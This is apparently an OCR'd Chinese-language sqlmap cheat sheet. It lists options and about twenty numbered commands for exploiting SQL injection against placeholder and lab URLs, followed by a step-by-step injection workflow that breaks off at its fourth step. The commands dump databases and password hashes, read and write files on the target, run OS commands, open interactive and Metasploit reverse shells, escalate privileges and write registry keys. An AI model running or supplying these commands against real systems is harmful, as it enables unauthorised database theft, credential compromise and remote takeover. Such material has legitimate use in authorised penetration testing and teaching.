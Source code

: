 ```shell
--file-write   #写入本地文件(--file-write /test/test.txt --file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt) 
--file-dest    #要写入的文件绝对路径 
--os-cmd=id    #执行系统命令 
--os-shell     #系统交互shell 
--os-pwn       #反弹shell(--os-pwn --msf-path=/opt/framework/msf3/) 
--msf-path=    #matesploit绝对路径(--msf-path=/opt/framework/msf3/) 
--os-smbrelay  # 
--os-bof       # 
--reg-read     #读取win系统注册表 
--priv-esc     # 
--time-sec=    #延迟设置 默认--time-sec=5 为5秒 -p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"  #指定user-agent注入 
--eta          #盲注 /pentest/database/sqlmap/txt/common-columns.txt　　字段字典　　　 
common-outputs.txt 
common-tables.txt      表字典 
keywords.txt 
oracle-default-passwords.txt 
user-agents.txt 
wordlist.txt 

常用语句 :
1./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db --users --passwords --dbs -v 0 
2./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --passwords -U root --union-use -v 2 
3./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -T users -C username -D userdb --start 2 --stop 3 -v 2 
4./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -C "user,pass"  -v 1 --exclude-sysdbs 
5./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --sql-shell -v 2 
6./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-read "c:\boot.ini" -v 2 
7./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-write /test/test.txt --file-dest /var/www/html/1.txt -v 2 
8./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-cmd "id" -v 1 
9./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-shell --union-use -v 2 
10./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 --priv-esc -v 1 
11./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 -v 1 
12./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-bof --msf-path=/opt/framework/msf3 -v 1 
13./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --reg-add --reg-key="HKEY_LOCAL_NACHINE\SOFEWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1 
14./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --eta 
15./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "')" --suffix "AND ('abc'='abc"16./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass"17./sqlmap.py -l burp.log --scope="(www)?\.target\.(com|net|org)"18./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3 
19./sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --sql-query "SELECT 'foo'" -v 1 
20./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner 
21./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --cookie="PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low" --string='xx' --dbs --level=3 -p "uid"

简单的注入流程 :
1.读取数据库版本，当前用户，当前数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db -v 1 
2.判断当前数据库用户权限 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --privileges -U 用户名 -v 1 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --is-dba -U 用户名 -v 1 
3.读取所有数据库用户或指定数据库用户的密码 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --users --passwords -v 2 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --passwords -U root -v 2 
4.获取所有数据库 
```